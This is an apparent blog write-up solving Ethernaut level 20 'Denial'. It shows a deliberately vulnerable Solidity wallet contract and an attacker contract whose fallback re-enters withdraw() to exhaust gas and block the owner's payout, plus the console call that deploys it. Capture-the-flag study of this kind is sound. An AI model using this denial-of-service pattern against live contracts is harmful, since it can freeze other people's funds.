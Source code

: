 ```yaml
---
layout: post
title: Ethernaut - 20. Denial
date:  2022-09-23
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.<br />
If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Writeup
There is a line `partner.call{value:amountToSend}("");` in the function `withdraw()`. So we can create a parner contract and write some malicious code in `fallback` function to drain all gas.
1. Get new instance.
2. Create a new contract.
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface IDenial {
        function withdraw() external;
        function setWithdrawPartner(address _partner) external;
    }

    contract DenialAttacker {
        fallback () external payable {
            IDenial(msg.sender).withdraw();
        }
    }
    ```
3. Compile and deploy.
4. Call `setWithdrawPartner` method.
    ``` javascript

    await contract.setWithdrawPartner('YOUR_DENIALATTACKER_CONTRACT_ADDRESS')

    ```
5. Submit instance ξ( ✿＞◡❛)